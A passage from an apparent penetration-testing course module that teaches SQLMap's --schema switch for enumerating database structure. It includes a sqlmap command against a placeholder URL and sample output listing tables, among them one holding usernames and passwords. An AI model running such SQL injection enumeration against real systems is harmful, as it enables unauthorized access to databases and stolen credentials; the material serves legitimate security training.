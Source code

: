 # Advanced Database Enumeration

Now that we have covered the basics of database enumeration with SQLMap, we will cover more advanced techniques to enumerate data of interest further in this section.

***

### DB Schema Enumeration

If we wanted to retrieve the structure of all of the tables so that we can have a complete overview of the database architecture, we could use the switch `--schema`:

Advanced Database Enumeration

```shell-session
AIceBear@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```
